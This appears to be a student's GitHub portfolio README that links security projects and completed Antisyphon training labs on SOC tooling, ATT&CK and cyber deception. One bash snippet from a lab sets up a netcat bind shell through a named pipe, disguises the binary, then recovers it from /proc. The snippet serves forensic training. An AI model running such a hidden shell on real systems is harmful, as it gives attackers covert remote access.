 # All Projects

[Vulnerability Management Tenable](/Vulnerability%20Management%20Tenable)

[Password Strength Checker and Password Generator](/Password)

[EXIF data](/EXIF%20data)

[Subdomain Enumeration and Reconnaissance](/Subdomain%20Enumerator)

[Bypass Windows Login Screen](Bypass%20Windows%20Login%20Screen)

[Linux Login Bypass and Prevention](/Linux%20Login%20Bypass%20and%20Prevention)

[Caesar Cipher Encryptor and Decryptor](/Caesar%20Cipher%20Encryptor%20and%20Decryptor)

[LSB Steganography](/LSB%20Steganography)

[Linkedin Automated Messaging](/Linkedin%20Automated%20Messaging)

[Password Hash Cracker](/Password%20Hash%20Cracker)



## SOC Core Skills with John Strand by Antisyphon Training (Successfully finished practice labs)

  - [TCPDump](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/TCPDump/TCPDump.md)
  - [Wireshark](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)
  - [Linux CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
  
```bash
mv /nc ./notnetcat
mknod backpipe p
/bin/bash backpipe 0<backpipe | notnetcat -l 2222 1>backpipe

#Other Terminal
nc 10.10.104.64 2222
rm ./notnetcat

netcat gone but still works
cd /proc/11625
cp ./exe /tmp/backupexe
cd /tmp
strings ./backupexe | less
```
  - [WindowsCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)
  - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  - [Sysmon in ELK](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/sysmon_logs.md)
  - [Domain Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)
 - [Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
  - [Memory Analysis (Volatility)](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Memory/MemoryAnalysis(Volatility).md)
  - [Elk In The Cloud](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elk_in_the_cloud.md)
  - [Elastic Agent](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elastic_agent.md)
  - [Lima Charlie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/limacharlie/limacharlie.md)
  - [Lima Charlie & Atomic Red](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LCmeetsAtomicRed/LCAR.md)
  - [Velociraptor](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Velociraptor/Velociraptor.md)
  - [Hunting DCSync, Sharepoint and Kerberoasting](https://github.com/strandjs/IntroLabs/tree/master/IntroClassFiles/Tools/IntroClass/PoisoningtheWellIR-main)
  - [Web Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebLogReview/WebLogReview.md)
  - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
  - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
  - [Firewall Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FirewallLog/FirewallLog.md)


## Getting Started in Security with BHIS and MITRE ATT&CK with John Strand by Antisyphon Training (Successfully finished practice labs)

 - [Applocker](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)
 - [Password Cracking](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordCracking/PasswordCracking.md)
 - [Password Spraying](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)
 - [RITA and AC Hunter](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
 - [Sysmon](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Sysmon/Sysmon.md)
 - [Atomic RedTeam and Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
 - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
 - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
 - [Host Firewalls and Nmap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Nmap/Nmap.md)
 - [Responder](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Responder/Responder.md)
 - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
 - [Falcon](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/falcon.md)
 - [ConnectSecure](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/Connectsecure.md)
 - [Azure IR](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AZURE-MSP-WRITEUP-main/README.md)
 - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  
## Active Defense & Cyber Deception With John Strand by Antisyphon Training (Ongoing practice labs)

  - [Spidertrap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Spidertrap.md)
  - [Cowrie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Cowrie.md)
  - [Canarytokens](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/canarytokens/Canarytokens.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
  - [Portspoof](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Portspoof.md)
  - [HoneyBadger](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/HoneyBadger.md)
  - [HoneyShare](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyshare/HoneyShare.md)
  - [HoneyUser](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyuser/honeyuser.md)
  - [AdvancedC2](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/pcap/AdvancedC2PCAPAnalysis.md)
  - [WebHoneypot](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/webhoneypot/webhoneypot.md)
  - [File Audit](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FileAudit/FileAudit.md)
